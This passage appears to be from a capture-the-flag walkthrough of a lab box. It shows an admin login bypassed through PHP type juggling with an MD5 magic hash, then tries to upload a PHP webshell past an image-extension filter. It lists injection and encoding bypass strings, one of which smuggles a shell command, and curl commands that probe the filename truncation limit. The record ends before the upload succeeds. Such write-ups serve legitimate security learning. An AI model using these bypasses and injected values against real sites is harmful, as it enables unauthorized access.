 #### Juggle admin’s Password

Armed with the hint to think about type juggling, I tried a few things to get into the site.

This is going to work, as we already have the hash of the admin password from `sqlmap`, and it starts with `0e`, `0e462096931906507119562988736854`.

The Magic Hashes reference above gives a string for many different hash types that works out to start with `0e`. Trying these, the `md5` one, `240610708` logs in:

![1526345220190](https://0xdfimages.gitlab.io/img/1526345220190.png)

### Code Execution - Webshell

#### File Upload Overview / Failures

The admin user has access to additional functionality, `/upload.php`. The `/upload.php` path takes a url for an image. When a valid image url is give, it outputs the following:

![upload](https://0xdfimages.gitlab.io/img/upload.png)

If you try to upload something ending in a non-image extension, you get:

![1526345623560](https://0xdfimages.gitlab.io/img/1526345623560.png)

Fails:
- `http://10.10.15.99:8081/cmd.php'; echo png #` - error, no upload
- `http://10.10.15.99:8081/cmd.php';test.png` - full string at http server
- `http://10.10.15.99:8081/cmd.php;.jpg` - gets file, but only full path is accessible
- `http://10.10.15.99:8081/cmd.php%00.jpg` - GET request makes it to server, but error there
- Extension filter not done client side - catching request and modifying doesn’t bypass
- `http://10.10.15.99:8081/cmd.php%27%3b%20echo%20test%23.png` - request for full url
- `http://10.10.15.99:8081/cmd.php #.png`- invalid url
- `http://10.10.10.15.99:8081/cmd.php%27%3btest.png` - http server gets encoded chars in request

#### File Upload Success - File name truncation

The admin’s profile page has a quote, which is actually a hint:

![1526574356091](https://0xdfimages.gitlab.io/img/1526574356091.png)

As far as limits, when submitting an absurdly long name into the system, the message is a bit different:

![1526400260532](https://0xdfimages.gitlab.io/img/1526400260532.png)

So what is the longest acceptable length?

```

root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*228 + "test.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep "The name is too long"

root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*229 + "test.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep "The name is too long"
        <pre>The name is too long, 237 chars total.

```
